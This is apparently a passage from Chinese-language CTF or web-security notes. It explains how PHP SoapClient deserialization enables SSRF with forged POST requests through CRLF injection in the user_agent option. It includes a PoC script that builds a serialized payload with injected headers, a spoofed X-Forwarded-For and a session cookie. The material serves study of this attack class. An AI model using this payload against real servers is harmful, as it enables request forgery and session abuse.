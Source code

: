 



对于如何发送POST的数据包，这里面还有一个坑，就是`content-type`的设置，当是可以看到上面的数据包，`user_agent`的头部是在`content-type`的下面，所以我们可以通过`SoapClient`来设置`user_agent`，再使用crlf将`content-type`给往下挤。



#### **来自wupco师傅构造任意post报文的poc:**

```php
<?php
$target = "http://example.com:5555/";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa);
echo urlencode($aaa);
```

![img](assets/804631-20180316165126622-199442235.jpg)



#### 例子

LCTF2018 签到题



### Error类构造xss
